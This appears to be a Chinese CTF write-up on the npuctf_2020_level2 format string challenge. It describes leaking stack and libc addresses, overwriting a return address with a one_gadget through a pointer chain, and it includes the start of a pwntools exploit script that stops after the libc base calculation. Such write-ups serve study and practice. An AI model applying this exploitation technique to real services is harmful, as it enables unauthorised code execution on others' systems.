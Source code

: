 

## npuctf_2020_level2

![[Pasted image 20241129223003.png]]


![[Pasted image 20241129222927.png]]

64位的我们首先需要进行泄露地址，泄露的格式我们可以用到学习记录中的格式化字符串的剖析中的，

![[Pasted image 20241130222806.png]]

这张图是我还没有patchelf的时候调试出来的
![[Pasted image 20241129231158.png]]

这个是我patchelf后调试出来的
![[Pasted image 20241130222829.png]]

这一题在做的时候发现我只能正常修改a-->b-->c中的c为ret的地址，最后的后门修改后发现没有变成后门，还有一点就是发现每次发送的时候就会出现debug的显示出现很大一片面积的空白，而且发送什么都能没有执行，情况如下：
![[Pasted image 20241130223934.png]]

==我们发现很大的空白，这是因为发送没发送完，我们可以看到调试的结果如下，发现每次接收的字节最后都有\\x0a的字节数，我们正好可以利用这个进行接收的标志，然会再发送信息。而且我们还需要知道，我们修改的ret的栈地址有时只需要修改两个字节，但是如果one_gadget需要修改3个字节我们就需要修改两次，但是ret只改一次，这是不匹配的，我们需要凑成两队，并且交叉发送，先发送栈的地址后发送got地址，如下图：==
![[Pasted image 20241130231256.png]]
![[Pasted image 20241130231142.png]]

然后我们还需要知道的一点就是libc_addr=真实地址-libc.dump\[函数名称]
也就是说我们需要知道libc文件，然后从libc中寻找函数偏移。
之前我用的libc_addr=真实地址-elf.sym\[函数名称]。这是错的。


还有一点很重要：==我遇到很多的题目都不给libc的文件，这很奇怪啊，但是很多的exp（网上的）都知道libc的版本，我还没见过有人在exp中写过泄露libc版本的方法，当然我说当aaaaaaaa的地址找不到的那种题。==

全部代码如下：

```
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
file_name = './npuctf_2020_level2'

debug = 0

if debug:

    r = remote('node4.buuoj.cn', 25812)

else:

    r = process(file_name)

elf = ELF(file_name)

p1 = '%7$p,%9$p'

r.sendline(p1)

r.recvuntil('0x')

libc = ELF('./libc-2.27.so')

libc_base = int(r.recv(12), 16) - libc.sym['__libc_start_main'] - 231
```